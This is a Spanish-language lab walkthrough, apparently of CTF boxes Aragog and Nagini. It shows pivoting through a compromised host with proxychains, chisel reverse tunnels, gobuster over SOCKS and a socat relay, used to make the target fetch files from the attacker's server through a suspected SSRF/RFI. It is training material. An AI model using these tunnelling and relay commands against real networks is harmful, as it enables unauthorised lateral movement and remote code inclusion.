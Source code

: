 Y lo mismo con otras herramientas, solo tienes que poner proxychains delante:
```sh
proxychains whatweb http://10.10.0.129
```

Encontramos los puertos 22 y 80 abiertos. **Para ver la web** -piensa que el port forwarding del puerto 80 no lo hemos hecho- desde foxy proxy del navegador --> add, creamos un nuevo proxy que lo llamaré Nagini, la configuración es; Tipo de proxy: socks5, IP: 127.0.0.1, Port: 1080  
Ya que el proxy lo tengo en el equipo local por el puerto 1080.  
Al pasar por ese proxy ya podrás acceder a la web de la máquina Nagini.

Para fuzzear con **gobuster** con proxy de por medio podemoss hacerlo mismo de poner delante proxychains o mejor porque va más rápido usar el parametro --proxy:
```sh
gobuster dir -u http://10.10.0.129/ -w DICCIONARIO -x txt,php -t 20 --proxy socks5://127.0.0.1:1080
```
Desde la web nos dan una pista de el protocolo http3 que investigando un poco damos que va por el protocolo UDP y el puerto suele ser el 443. El problema es que desde el proxy establecido por el momento el navegador va a intentar conectarse por TCP. De alguna forma hay que decirle que es por UDP, y lo haremoos con un port forwarding:
```sh
./chisel client 192.168.111.106:1234 R:socks R:443:10.10.0.129:443/udp
# Quiero que el puerto 443 de la máquina Nagini sea mi puerto 443 por udp.
```
De esta manera aislado al túnel socks también tenemos ese port forwarding.

En la box Nagini tenemos un SSRF pero que podría ser también RFI, el tema ahora es que aunque tengamos nosotros conectividad con la Nagini gracias al túnel, la Nagini hacía nosotros no la tiene, si quiere descargarse un archivo php por ejemplo de un servidor que creamos en nuestra máquina no podría, para solucionarlo entra la herramienta **socat**.  
**Descargando socat**; socat github --> el de "static-binaries" --> Download --> Movemos a carpeta deseada y le das permisos de ejecución.  
Este socat habrá que moverlo a la máquina Aragog -a la intermediaria- que es donde quiero ejecutarlo, con la ejecución le dirás "todas las peticiones que vengan a mi host -Aragog- por el puerto 80 quiero redirigirlas al puerto 80 de la máquina atacante".

Aprovechando que generamos una clave pública y tenemos acceso por ssh transferimos el archivo con scp:
```sh
scp socat root@192.168.11.38:/tmp/socat

# Y nos montamos un servidor con python, puedes crearte un index.html por comprobar que funciona:
python3 -m http.server 80 
```
Y ahora ya desde la máquina Aragog:
```sh
./socat TCP-LISTEN:4343,fork TCP:192.168.111.106:80
# Quiero que todo lo que llegue a mi máquina (Aragog) por el puerto 4343 se rediriga a mi máquina atacante (192.168.111.106) hacia el puerto 80.
```
Desde la web de Nagini en el cuadro de búsqueda donde tenemos el posible RFI ponemos; http://10.10.0.128:4343. Hay que poner el nodo más cercano, y este nodo que tiene el socat lo redirirá a mi máquina atacante.

> Socat permite controlar el flujo de las comunicaciones, permite que una máquina tercera que en principio no tiene conexión contigo pueda llegar a ti usando una máquina de por medio. Redirigiendo la petición desde el host intermediario hasta mi máquina atacante.
